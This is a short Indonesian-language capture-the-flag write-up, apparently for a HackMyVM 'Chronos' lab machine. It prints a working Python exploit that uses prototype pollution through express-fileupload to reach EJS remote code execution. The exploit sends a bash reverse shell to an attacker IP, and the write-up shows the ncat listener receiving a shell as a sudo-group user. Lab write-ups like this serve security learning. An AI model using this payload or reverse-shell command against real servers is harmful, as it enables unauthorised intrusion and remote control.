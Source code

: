 ```json
console.log('Server listening on ' + addr + ' port ' + port);
```
tidak tahu persis apa maksudnya, tapi saya dapat memahami bagaimana server ini berjalan. saya mencoba googling dan mendapatkan Exploit menarik untuk [express-fileupload](https://github.com/boiledsteak/EJS-Exploit). tidak lebih seperti dibawah ini.
```py
##############################################################
# Run this .py to perform EJS-RCE attack
# referenced from
# https://blog.p6.is/Real-World-JS-1/
# 
# Timothy, 10 November 2020
##############################################################

### imports
import requests

### commands to run on victim machine
cmd = 'bash -c "bash -i &> /dev/tcp/192.168.56.1/2004 0>&1"'

print("Starting Attack...")
### pollute
requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName': (
    None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})

### execute command
requests.get('http://127.0.0.1:8080')
print("Finished!")
```
konsep yang menarik untuk meng-exploit server lokal dan mengeksekusi reverse shell dan masuk ke shell si mesin attacker. and then look what i've done with it.
```bash
www-data@chronos:~/html$ python3 exploit.py
python3 exploit.py
Starting Attack...
Finished!
---
arin@aoba ~/Desktop/boot2roots/hmv/chronos $ ncat -nvlp 2004
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::2004
Ncat: Listening on 0.0.0.0:2004
Ncat: Connection from 192.168.56.108.
Ncat: Connection from 192.168.56.108:33712.
bash: cannot set terminal process group (772): Inappropriate ioctl for device
bash: no job control in this shell
imera@chronos:/opt/chronos-v2/backend$ id
id
uid=1000(imera) gid=1000(imera) groups=1000(imera),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
imera@chronos:/opt/chronos-v2/backend$ 

```

